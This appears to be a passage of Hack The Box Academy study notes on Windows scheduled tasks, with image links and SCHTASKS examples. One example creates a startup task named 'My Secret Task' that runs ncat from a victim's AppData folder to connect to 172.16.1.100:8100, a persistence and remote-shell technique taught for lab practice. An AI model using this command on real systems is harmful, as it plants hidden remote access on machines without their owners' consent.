 ```cmd-session
C:\htb> SCHTASKS /Query /V /FO list
```

Create a New Scheduled Task :

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Easy/Introduction%20to%20Windows%20Command%20Line/Images/query_syntax_stask_create.png)

```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"
```

Change the Properties of a Scheduled Task : 

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Easy/Introduction%20to%20Windows%20Command%20Line/Images/query_syntax_stask_change.png)
